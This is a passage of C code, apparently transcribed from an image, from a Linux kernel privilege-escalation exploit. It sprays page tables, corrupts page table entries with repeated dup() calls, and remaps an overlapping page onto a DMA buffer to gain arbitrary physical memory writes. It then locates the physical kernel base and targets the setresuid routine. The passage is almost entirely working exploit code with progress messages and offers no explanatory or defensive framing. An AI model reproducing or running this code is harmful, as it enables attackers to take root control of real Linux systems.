 ```c
        for (int j = 0; j < 8; j++)
            *(char*)(page_spray[i] + j*0x1000) = 'A' + j;

    printf("[*] doing pte spray done\n");

    printf("[*] corrupt pte entry\n");

    for (int i = 0; i < 0x1000; i++)
        if(dup(fds[overlap_idx]) < 0)
            perror("dup");

    printf("[*] searching for overlapping page\n");

    void *evil = NULL;
    for (int i = 0; i < 0x2000; i++) {
        if (*(char*)(page_spray[i] + 7*0x1000) != 'A' + 7) {
            evil = page_spray[i] + 0x7000;
            printf("[*] found overlapping page: %p\n", evil);
            break;
        }
    }
    if (evil == NULL) {
        printf("[-] overlapping page not found, exploit fail\n");
        exit(-1);
    }

    printf("[*] remapping...\n");
    munmap(evil, 0x1000);
    void *dma = mmap(evil, 0x1000, PROT_READ | PROT_WRITE,
                    MAP_SHARED | MAP_POPULATE, dma_buf_fd, 0);
    *(char*)dma = '0';

    printf("[*] corrupt pte entry again\n");

    for (int i = 0; i < 0x1000; i++)
        if(dup(fds[overlap_idx]) < 0)
            perror("dup");

    printf("[*] dma buffer contains: 0x%lx\n", *(size_t*)dma);

    void *arb_buf = NULL;
    *(size_t*)dma = 0x800000000009c067;

    printf("[*] dma buffer contains: 0x%lx\n", *(size_t*)dma);

    for (int i = 0; i < 0x2000; i++) {
        if (page_spray[i] == evil) continue;
        if (*(size_t*)page_spray[i] > 0xffff) {
            arb_buf = page_spray[i];
            printf("[*] found victim page table: %p\n", arb_buf);
        }
    }

    size_t phys_base = ((*(size_t*)arb_buf) & ~0xfff) - 0x3a04000;
    printf("[*] physical kbase: 0x%lx\n", phys_base);

    *(size_t*)dma = 0x8000000000000000 + phys_base + 0x1af000 + 0x67; // setresuid

    printf("[*] dma buffer contains: 0x%lx\n", *(size_t*)dma);

```